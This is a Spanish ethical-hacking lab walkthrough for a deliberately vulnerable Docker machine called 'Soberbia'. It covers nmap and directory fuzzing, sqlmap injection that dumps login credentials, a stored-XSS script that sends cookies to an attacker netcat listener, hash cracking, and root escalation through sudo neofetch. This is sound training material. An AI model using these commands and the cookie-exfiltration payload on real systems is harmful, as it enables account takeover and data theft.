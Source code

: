 = Soberbia
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de soberbia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh soberbia.tar
----

== Solucionar la máquina

En esta máquina pondremos en práctica todos los conceptos aprendidos previamente. Será una prueba final diseñada para aplicar los conocimientos adquiridos. El objetivo es lograr la escalada de privilegios hasta obtener acceso como root, partiendo de un entorno que, aunque vulnerable, se asemeja a uno real. Será necesario realizar primero un reconocimiento, seguido de la ejecución de distintos tipos de ataques. Se fomenta la exploración libre, sin seguir guías preestablecidas; no obstante, proporcionaré algunas pistas para avanzar en caso de ser necesario.

En esta guía se darán pistas, principalmente herramientas y cómo usarlas. Mucha suerte.

=== Reconocimiento

==== Fase 1

Empezaremos conociendo los puertos que tiene abiertos el servidor.

.Pista 1
[%collapsible]
====
Para ello haremos uso primeramente de https://nmap.org/man/es/index.html[nmap].

[source,bash]
----
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn (IP) -oG allPorts
----

* *sudo* -> Necesario porque -sS (SYN scan) requiere privilegios.
* *nmap* -> Llama a la herramienta Nmap.
* *-p-* -> Escanea todos los 65535 puertos TCP (no solo los comunes).
* *--open* -> Muestra solo los puertos abiertos (oculta filtrados/cerrados).
* *-sS* -> SYN scan (stealth scan). Muy rápido y difícil de detectar.
* *--min-rate 5000* -> Fuerza a Nmap a enviar al menos 5000 paquetes por segundo, lo que acelera el escaneo.
* *-vvv* -> Muestra información muy detallada durante el escaneo.
* *-n* -> No resuelve nombres de host (más rápido).
* *-Pn* -> No hace ping; asume que el host está activo (útil si ICMP está bloqueado).
* *(IP)* -> La dirección IP del objetivo.
* *-oG allPorts* -> Guarda los resultados en formato grepable (fácil de extraer con grep o awk) en el archivo allPorts.

image::assets/recon/nmap/nmap.png[nmap,width=560,align=center]

Como podemos ver están abiertos los puertos 80 y 22
====

.Pista 2
[%collapsible]
====
Podemos ver sus versiones con el siguiente comando:

[source,bash]
----
nmap -p (PORTS) -sC -sV (IP) 
----

* *-p (PORTS)* -> Indica los puertos que quieres escanear. Puedes poner un solo puerto (80), varios (22,80,443) o un rango (1-1000).
* *-sC* -> Usa los scripts por defecto de Nmap (los más comunes y seguros). Es similar a usar --script=default. Esto ayuda a detectar servicios, banners, configuraciones inseguras, etc.
* *-sV* -> Hace una detección de versión: intenta identificar el software y su versión en cada puerto abierto (por ejemplo, Apache 2.4.57).
* *(IP)* -> La dirección IP del objetivo.

image::assets/recon/nmap/nmapVer.png[Versiones nmap,width=560,align=center]

Una vez identificadas las versiones de los servicios, podemos comprobar si están desactualizadas y si presentan vulnerabilidades conocidas (CVEs) que podamos explotar.
====

.Sugerencia
[%collapsible]
====
Generalmente, los exploits se encuentran en repositorios como GitHub o en bases de datos especializadas como Exploit-DB. Para facilitar esta búsqueda, podemos utilizar herramientas como *https://www.exploit-db.com/searchsploit[searchsploit]*, que permite consultar Exploit-DB desde la terminal y verificar si existen exploits públicos para una versión específica.

image::assets/recon/nmap/searchsploit.png[searchsploit,align=center]

Podemos observar que no se ha encontrado ningún exploit relevante en Exploit-DB. Es importante ser precisos con los términos de búsqueda, ya que searchsploit devuelve todos los resultados relacionados, aunque no estén directamente vinculados con nuestros servicios. Por este motivo puede aparecer algún resultado, pero no necesariamente se aplica a nuestro caso.
====

==== Fase 2

Cómo ya hemos podido conocer, se trata de una página web sin certificado y con una conexión ssh, por lo que vamos a empezar analizando la página.

image::assets/recon/fuzz/pagina.png[pagina login,align=center]

.Pista 3
[%collapsible]
====
Aparentemente se ve una página que no tiene nada, pero es muy posible que posea directorios y subdirectorios con archivos. Para conocer la estructura vamos hacer lo que se denomina como fuzzing de contenido, es muy útil para identificar rutas sensibles como /admin, /backup, /config.php, etc. En nuestro caso usaremos https://www.kali.org/tools/feroxbuster/[feroxbuster] y https://www.kali.org/tools/gobuster/[gobuster], y compararemos.

[source,bash]
----
feroxbuster -u http://(IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --depth 0 --timeout 5
----

<<<

* *-u http://(IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* -> Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).
* *--depth 0* -> Recursividad infinita.
* *--timeout 5* -> Define un tiempo de espera de 5 segundos por solicitud antes de que feroxbuster la descarte por falta de respuesta.

image::assets/recon/fuzz/feroxbuster.png[feroxbuster,align=center]
====

.Pista 4
[%collapsible]
====
[source,bash]
----
gobuster dir -u (IP) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
----

* *dir* -> Le especificamos que queremos buscar directorios
* *-u (IP)* -> Define la URL objetivo. Puedes sustituir (IP) por una dirección IP o dominio.
* *-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt* ->  Especifica el diccionario que se usará para generar las rutas a probar (en este caso, uno mediano del paquete de DirBuster).

Gobuster es bastante sencillo de usar, pero un defecto que tiene es que no permite recursividad, teniendo que usar scripts para que haga dicha recursividad. Sinceramente veo feroxuster como una mejora de este.

image::assets/recon/fuzz/gobuster.png[gobuster,align=center]
====

==== Fase 3

.Pista 5
[%collapsible]
====
Bueno, una vez conociendo la estructura, podemos apreciar que hay un directorio en /dev, que se llama pruebas, o un alias de esta ruta que es /devzone. Esto nos sugiere que los desarrolladores podrían estar utilizando esta ruta para realizar pruebas antes de lanzar la versión final del sitio web. Es común que estas zonas contengan código en desarrollo o funcionalidades no protegidas, lo que podría representar una posible vía de explotación.

image::assets/recon/web/pruebas.png[directorio pruebas,align=center]
====

<<<

.Pista 6
[%collapsible]
====
Dentro de login.php podemos analizar las tecnologías con *wappalyzer* o con *whatweb* y ver que tecnologías usa.

image::assets/recon/web/wappalyzer.png[wappalyzer,align=center]
====

.Pista 7
[%collapsible]
====
[source,bash]
----
whatweb -a 3 -v http://172.17.0.2/1/2/4/23/dev/pruebas/login.php
----

image::assets/recon/web/whatweb.png[whatweb,width=540,align=center]
====

=== Ataque

==== Fase 4

Conociendo un poco más a lo que nos enfrentamos, al ser un login podemos probar con ciertos vectores.

.Pista 8
[%collapsible]
====
Efectivamente con SQLi, pero esta vez no lo vamos a hacer manual, obviamente hay formas más eficientes cómo *sqlmap*, donde comenzaremos por un reconocimiento sabiendo si es vulnerable a SQLi.

[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --batch --risk=3 --level=5 --technique=BEUSTQ
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> Especifica la URL del objetivo, que es un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los parámetros usuario y password. sqlmap inyectará en estos campos. Estos los podemos encontrar si hacemos F12 en la página y observando los atributos *name* o *id* de los inputs correspondientes.
* *--batch* -> Ejecuta el escaneo de forma automática, aceptando las opciones por defecto sin preguntar al usuario. Muy útil para automatizar.
* *--risk=3* -> Aumenta el nivel de riesgo de las pruebas. Va de 0 a 3. Este nivel puede activar payloads más agresivos.
* *--level=5* -> Aumenta la profundidad del escaneo. Va de 1 a 5.
* *--technique=BEUSTQ* -> Define las técnicas de inyección SQL a usar:
** B: Boolean-based
** E: Error-based
** U: Union-based
** S: Stacked queries
** T: Time-based blind
** Q: Inline queries

image::assets/atacar/sqli/sqlmap.png[sqlmap recon,align=center]

Cómo podemos ver el parametro usuario es vulnerable, además más abajo se especifica la versión de Mariadb. Ahora vamos a atacar y obtener las credenciales.
====

.Pista 9
[%collapsible]
====
[source,bash]
----
sqlmap -u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php" --data "usuario=admin&password=admin" --dump --batch
----

* *-u "http://172.17.0.2/1/2/4/23/dev/pruebas/login.php"* -> URL objetivo. Aquí es la página login.php, que probablemente procese un formulario de login.
* *--data "usuario=admin&password=admin"* -> Indica que se trata de una petición POST, con los datos que se envían (usuario=admin&password=admin). Estos son los campos donde sqlmap probará la inyección.
* *--dump* -> Si se encuentra una inyección válida, extraerá y mostrará automáticamente el contenido de las tablas de la base de datos.
* *--batch* -> Ejecuta en modo automático, sin pedir confirmación para cada acción (muy útil en entornos automatizados o pruebas rápidas).

image::assets/atacar/sqli/sqliattack.png[ataque sqli,width=640,align=center]

Como podemos ver, hemos obtenido las credenciales de los usuarios admin y test, por lo que podremos pasar el login.
====

==== Fase 5

Una vez en comentarios, podemos probar cómo funciona el sistema, enviamos un mensaje y nos lo devuelve. Esto nos puede recordar a primeros vectores que aprendimos.

.Pista 10
[%collapsible]
====
Podemos hacer un ataque XSS almacenado, asi que podemos obtener las cookies por *netcat* o mirar en Storage al F12.

image::assets/atacar/xss/comentarios.png[página comentarios,align=center]
====

.Pista 11
[%collapsible]
====
[source,bash]
Mediante el comando *nc* nos podemos conectar a los puertos TCP/UDP de un host. De este modo podemos conectarnos a otros servidores usando diferentes protocolos de red. Además, también es posible crear servidores que se mantengan a la escucha de peticiones entrantes. Los puertos se abrirán por defecto mediante el protocolo TCP, aunque también se acepta el protocolo UDP. En nuestro caso, abrimos un puerto poco frecuenta para recibir los datos, la primera vez que hicimos XSS creamos nuestro propio netcat.

----
nc -lvpn 4444
----

image::assets/atacar/xss/netcat1.png[comando netcat,align=center]
====

<<<

.Pista 12
[%collapsible]
====
Después, dentro del comentario meteremos el siguiente script en javascript, que nos pasará las cookies del usuario actual.

[source,javascript]
----
<script>fetch('http://(IP atacante):4444?cookie=' + encodeURIComponent(document.cookie));</script>
----

image::assets/atacar/xss/xss.png[xss script,width=520,align=center]

Una vez enviado dicho script veremos una cadena muy larga en GET, ese es el contenido de la cookie:

image::assets/atacar/xss/netcat2.png[envio de cookies a netcat,align=center]
====

.Pista 13
[%collapsible]
====
Copiamos esta cadena y la decodificamos con *cyberchef*, una herramienta web muy util para estos casos. Usamos URL decode, para ver el contenido:

image::assets/atacar/xss/cyberchef.png[cyberchef,width=520,align=center]
====

.Pista 14
[%collapsible]
====
Podemos ver que se almacenan las credenciales de ssh, han puesto el usuario y la contraseña hasheada separada por dos puntos. Para crackear hash podemos usar *Crackstation*:

* *Usuario:*

image::assets/atacar/xss/CrackUser.png[nombre usuario,align=center]

* *Contraseña:*

image::assets/atacar/xss/CrackPasswd.png[contraseña,align=center]

Una vez hecho esto ya tendríamos las credenciales del ssh. 
====

<<<

.Sugerencia
[%collapsible]
====
También hay otra forma más sencilla de obtener las cookies, simplemente quería mostrar otra forma para hacer XSS y usar netcat. Le damos a F12 en la página y nos vamos a Storage, ahí podremos obtener los hashes que hemos crackeado antes.

image::assets/atacar/xss/F12.png[inspeccionar,align=center]
====

==== Fase 6

Con las credeciales ssh, nos conectamos al servidor:

.Pista 15
[%collapsible]
====

image::assets/atacar/escalada/ssh.png[conexión con el servidor,width=450,align=center]

Ahora veremos si tenemos algún privilegio:

image::assets/atacar/escalada/sudo-l.png[comando sudo -l,width=450,align=center]
====

.Pista 16
[%collapsible]
====
Podemos ver que tenemos permisos de administración en neofetch. Por lo que buscamos en https://gtfobins.github.io/gtfobins/neofetch/[GTFOBins] si podemos escalar a través de él.

image::assets/atacar/escalada/gtfobins.png[gtfobins,align=center]
====

.Pista 17
[%collapsible]
====
Podemos ver que, para escalar privilegios, debemos crear un archivo temporal con el contenido exec /bin/sh y pasarlo como configuración a neofetch, ejecutado con sudo. Dicho esto, copiamos y pegamos lo que nos indica y obtenemos privilegios de root.

image::assets/atacar/escalada/root.png[somos root,align=center]
====

== Conclusión

De esta forma hemos aprendido cómo funciona una máquina sencilla, con multiples vulnerabilidades, aprendiendo a usar herramientas reales y que normalmente se usan en estos entornos. Además hemos refrescado conocimientos y visto algunos de otra forma. Si queremos avanzar más en el mundo del hacking ético y aprender más recomiendo lo siguiente:

* Conocerte bien, saber qué rama quieres aprender, centrándote en atacar o en defender, es vital para luego hacer los certificados, ya que sabrás en cual encajas mejor.
* Hacer muchas máquinas, esto ha sido un ensayo, donde hemos aprendido lo más básico, allí fuera en internet hay máquinas mucho más complejas y divertidas de explorar. Por ello recomiendo:
** https://tryhackme.com/[TryHackMe].
** https://www.hackthebox.com/[HackTheBox].
* Si tenemos tiempo, recomiendo hacer cursos, ya sea aprendiendo lenguajes de programación, cómo de otras destrezas. Siempre es útil aprender, y hay en youtube muchos canales que nos pueden ayudar o academias que ofrecen cursos gratis:
** Academias cómo Udemy.
** Canales cómo S4vitar, MoureDev, El Pingüino de Mario, NetworkChuck, David Bombal, LaurieWired.
* Por último, hacer certificaciones, hay obviamente cursos que te preparan para ello, y es muy recomendable tenerlos para demostrar que sabes hacerlo.
** Dejo este roadmap que nos puede ser muy util para planificar nuestros estudios https://pauljerimy.com/security-certification-roadmap/[CERTS].

Espero que os haya gustado este viaje por las entrañas del infierno, donde hemos aprendido los principales vectores de ataque y cómo mitigarlos. Vuestro Vírgilio se despide de vosotros.

----
"Cuanto más silencioso te vuelves, más puedes oír." 

- Baba Ram Dass
----